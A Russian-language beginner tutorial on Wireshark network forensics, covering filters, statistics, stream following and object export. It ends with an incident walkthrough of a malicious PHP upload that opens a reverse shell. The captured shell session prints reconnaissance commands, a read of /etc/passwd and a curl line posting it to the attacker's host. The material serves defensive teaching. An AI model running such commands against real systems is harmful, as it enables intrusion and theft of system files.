Что делать со скомпрометированными системами мы разобрались. Но что, если данных на диске недостаточно для криминалистического расследования? 
Например,  мы замечаем резкую нагрузку на сеть или обнаруживаем перенаправление на какие-то левые IP-адреса. Чтобы разобраться в подозрительных вещах, мы обращаемся к анализу сетевой активности, и в этом нам помогают так называемые "снифферы" - эти инструменты устанавливают наш сетевой адаптер в определенный режим, который позволяет принимать все пакеты в эфире, вне зависимости от того, предназначаются ли они для нашего устройства или нет. 

Терпеливо выслушав жалобы заказчика, форензик собирает трафик, получает файлик с дампом и идет смотреть, что же там произошло.

## Что нужно знать, чтобы не грепать по "CTF{"

Для анализа форензик имеет у себя в арсенале хотя бы один инструмент для анализа дампов трафика. Пожалуй, самым популярным сниффером, с которым можно столкнуться, является [Wireshark](https://www.wireshark.org/download.html). Для того, чтобы начать работать с этим инструментом, малыш должен знать некоторые вещи, которые будут полезны при анализе трафика.

### Буйство красок: какой цвет к чему?

Для удобства в Wireshark предусмотрено цветное представление пакетов и протоколов.



*Дефолтное представление цветов можно посмотреть в разделе* `View` -> `Coloring Rules..`.

1. **Красным цветом** помечаются пакеты с ошибками в передаче данных. Например, в контексте сетевых атак они могут быть интересны как подозрение на DDoS, так что к ним стоит присмотреться.
2. **Черным цветом** помечаются пакеты, которые повреждены на этапе захвата или захвачены не полностью.
3. **Темно-зеленым цветом** помечаются пакеты, которые вызывают предупреждения или ошибки, но не являются критическими.
4. **Зеленым цветом** помечаются пакеты с данными или запросами, которые успешно переданы и обработаны. Обычно в них и лежит все самое интересное.

### Фильтрация или Что полезно для базового анализа

Чтобы ускорить скрупулезный анализ PCAP, форензику приходится прибегать к использованию фильтров. Здесь будут перечислены те, с которыми малыш будет сталкиваться чаще всего:

- `http.request` - отображение HTTP-запросов: полезно в контексте понимания того, какой хост за чем обращался к другому - загрузка файлов, страниц или внедрение вредоносных запросов.
- `ip.src eq <IP-address>` и `ip.dst eq <IP-address>` - если нам интересно посмотреть на активность с конкретного подозрительного IP - какие запросы отправлялись и принимались данным хостом.
- `tcp.port eq <port>` - если надо просмотреть, какие пакеты отсылались на интересующий порт.
- `http` и `!arp` - разумеется, фильтрация по интересующим протоколам.

Также в инструменте присутствует некий синтаксис, а-ля логические операции, которые позволяют эффективно применять фильтры. Малыш может использовать `and` или `or` для объединения условий, применять `==` или `!=` для равенства условию или использовать `<=` и `>=` для проверки длины пакетов `frame.len`, если ему это понадобится. 

### Функционал, который нам очень пригодится

Когда форензик получает на руки интересный PCAP, он осматривается - какие пакеты летали по сети, каких больше всего, что может быть интересного. Для этого он заглядывает в `Statistics` -> `Protocol Hierarchy` и смотрит на статистику:



Также полезно узнать, с каких хостов отправлялись пакеты, и кого мы поймали во время сбора трафика. Для этого следует перейти на вкладку `Statistics` -> `Endpoint`.



Осмотревшись, форензик ищет интересные запросы и смотрит внутрь пакета: есть ли там что-то, за что можно зацепиться глазу? 



Если нашел любопытную информацию, надо посмотреть на поток пакетов - для этого следует нажать ПКМ на интересующий пакет, и выбрать нужный поток: `Follow` -> `HTTP Stream`. В процессе наблюдения можно обнаружить такую картину:



Конечно, хочется копнуть поглубже, и достать что-то более весомое, например, подозрительные файлы. Тогда надо заглянуть  в `File` -> `Export Objects` и выбрать нужный протокол, например, `HTTP..`.



Это базовые вещи, которые могу пригодиться малышу для анализа трафика.

## Не словом, а делом: смотрим на фрагмент атаки и думаем, что произошло

*Команда разработчиков жалуется, что на веб-сервере оказался какой-то файл, которого раньше не было, да еще и шумит в сети... Надо разобраться.*

Для начала просмотрим иерархию протоколов:



Кажется, нам следует обратить внимание на HTTP. Просмотрим,  каких хостов отправлялись пакеты:



Как оказывается, мы наблюдаем взаимодействие только двух хостов. 
Проанализируем кусочек трафика и придем к выводу, что запросы на веб-сервер прилетают с IP-адреса `117.11.88.124`.



В данной ситуации, файл мог быть отправлен с этого IP-адреса. Предположим это, и отфильтруем данные следующим образом: `http and ip.src== 117.11.88.124`



Первое, что нас может смутить - POST-запрос на страницу upload.php на веб-сервер, можно предположить, что это запрос на загрузку файла. Заглянем в поток, чтобы посмотреть содержимое пакета.



И по итогу наблюдаем создание обратной оболочки на хост `117.11.88.124:8080`.
После того, как мы узнали, что `image.jpg.php` является вредоносным файлом, следует посмотреть, какая активность была зафиксирована после запуска этого файла. Для этого находим подходящий запрос: 



И анализируем поток, который следует после этого запуска:

```
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov 2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<DELETED>
...
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0
100 368 100 357 100 11 56774 17[393 bytes missing in capture file].$
```

Наблюдаем удаленное выполнение команд и попытку стащить файл `passwd`.

## Куда стоит полезть еще?

- [Wireshark — подробное руководство по началу использования](https://habr.com/ru/articles/735866/) - полезная статья для тех, кто хочет прощупать инструмент.
- [malware-traffic-analysis.net](https://www.malware-traffic-analysis.net/index.html) - мастхев для тех, кому всегда мало: здесь лежат небольшие отчеты по анализу, туториал от автора ресурса, а также куча дампов, собранных с вредоносной активности реальной малвари.
- [Cyberdefenders.org](https://cyberdefenders.org/) - здесь, помимо прочих блутим-кейсов, лежит и категория Network Forensic, из которой можно выудить интересные PCAP для анализа и практики - идеально для малышей. Задачки с интересными атаками, которые я советую порешать: [PoisonedCredentials](https://cyberdefenders.org/blueteam-ctf-challenges/poisonedcredentials/), [OpenWire](https://cyberdefenders.org/blueteam-ctf-challenges/openwire/), [PsExec Hunt](https://cyberdefenders.org/blueteam-ctf-challenges/psexec-hunt/) (кстати, на первые два я писала подробные райтапы с объяснением атак, можно посмотреть [здесь](https://habr.com/ru/articles/775414/) и [здесь](https://habr.com/ru/articles/784908/))

На этом все. И не забывай, что всегда надо лезть туда, куда не просят)


